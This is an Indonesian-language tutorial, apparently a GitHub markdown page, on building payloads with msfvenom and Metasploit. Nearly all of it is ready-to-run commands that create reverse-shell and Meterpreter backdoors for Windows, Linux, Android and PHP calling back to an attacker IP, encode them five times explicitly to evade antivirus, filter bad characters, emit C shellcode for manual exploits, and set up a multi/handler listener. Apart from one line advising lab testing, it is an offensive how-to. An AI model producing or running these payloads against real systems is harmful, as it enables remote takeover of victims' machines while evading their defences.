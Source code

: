 # Membuat Payload dengan MSFvenom

## A. Apa Itu MSFvenom?

`msfvenom` adalah tool bawaan dari Metasploit yang digunakan untuk:
- Membuat payload eksploitasi (`reverse shell`, `Meterpreter`, `dll`).
- Meng-encode payload untuk menghindari antivirus.
- Meng-output payload dalam berbagai format (`exe`, `elf`, `raw`, `c`, `dll`).

## B. Struktur Dasar Perintah MSFvenom:

```
msfvenom -p <PAYLOAD> LHOST=<IP_ATTACKER> LPORT=<PORT_LISTENER> -f <FORMAT_OUTPUT> -o <NAMA_FILE>
```

Keterangan:

| Parameter | Fungsi |
|:--:|:--:|
| `-p` | Memilih jenis payload | 
| `LHOST` | IP lokal/attacker |
| `LPORT` |	Port listener di attacker |
| `-f` | Format file output (`exe`, `elf`, `raw`, `dll`) |
| `-o` | Nama file output |
| `-e` | Encoder yang digunakan |
| `-i` | Jumlah iterasi encoder |
| `-n` | Jumlah byte NOP (NOP sled) |

## C. Contoh Payload Windows

### 1. Payload Reverse TCP:

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
   ```

   Output: `shell.exe` (bisa dijalankan di sistem Windows).

### 2. Payload Dilengkapi Encoder:
  
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o shell_encoded.exe
   ```

   Encoding `5 kali` untuk menghindari deteksi AV.

## D. Contoh Payload Linux:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o backdoor.elf
```

Output: file `ELF` untuk Linux.

## E. Format Output yang Didukung

| Format |	Keterangan |
|:--:|:--:|
| `exe` | Windows executable |
| `elf` |	Linux executable |
| `raw` | Shellcode mentah |
| `c`	| Shellcode dalam array C |
| `python` | Shellcode untuk script Python |
| `asp, jsp`	| Webshell payload |
| `dll, macho, rb, dll`	| Format lainnya |

## F. Menampilkan Semua Payload yang Tersedia:

```
msfvenom -l payloads
```

## G. Contoh Payload di Format C:

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c
```

Output-nya cocok untuk disisipkan dalam exploit `C` manual.

## H. Membuat Web Payload (PHP/ASP/JSP)

Contoh Payload PHP:

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o shell.php
```

## I. Memasukkan Bad Characters

Untuk menghindari karakter tertentu seperti `\x00\x0a`, bisa tambahkan:

```
-b "\x00\x0a"
```

Contoh:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -b "\x00\x0a" -f exe -o filtered_shell.exe
```

## J. Payload untuk Android:

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o backdoor.apk
```

## K. Listener di Metasploit

Setelah payload dijalankan di target, buka listener:

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP_ATTACKER>
set LPORT 4444
run
```

## Tips Tambahan

- Selalu uji payload di lab virtual.
- Gunakan encoding bila antivirus mendeteksi payload.
- Tambahkan `NOP sled` jika payload tidak stabil.
